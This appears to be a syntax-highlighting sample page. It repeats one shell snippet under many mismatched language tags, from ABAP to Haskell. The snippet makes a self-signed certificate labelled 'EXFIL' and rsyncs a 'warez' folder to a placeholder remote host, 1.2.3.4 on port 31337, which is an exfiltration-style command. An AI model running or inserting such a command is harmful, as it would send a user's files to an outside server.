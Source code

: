 ```abap
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
elixir
```elixir
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
elm
```elm
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
erlang
```erlang
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
forth
```forth
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
ftl
```ftl
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
gcode
```gcode
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
gitignore
```gitignore
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
glsl
```glsl
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
golang
```golang
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
groovy
```groovy
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
haml
```haml
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
handlebars
```handlebars
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
haskell
```haskell
```